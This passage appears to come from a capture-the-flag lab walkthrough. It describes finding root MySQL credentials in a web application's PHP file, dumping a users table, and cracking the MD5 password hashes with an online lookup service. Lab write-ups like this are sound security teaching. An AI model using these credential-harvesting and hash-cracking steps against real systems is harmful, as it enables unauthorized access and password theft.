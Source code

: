 #### MySQL Direct Access

Either via the shell above, or by using the `/secret/` web page to run commands, you might view the file `/var/www/files/index.php`, which is a login page. However, it references `/var/www/files/account.php`.

In `account.php`, we can see the `root` database credentials for the local MySQL instance! So, that means we can run:

```bash
mysql -u root -p
```

And then paste in the password that you get from that `account.php` page. If not familiar, here is how you might go see the databases and tables:

```mysql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.01 sec)

mysql> use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53<.....REDACTED.....>806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 6862<.....REDACTED.....>c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

Why this was interesting was that the password hashes in the `password` field were very short, and could potentially by MD5 hashes. So, using a website like this: [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash), I pasted in those values and we can see what the clear-text passwords are for those of those accounts!
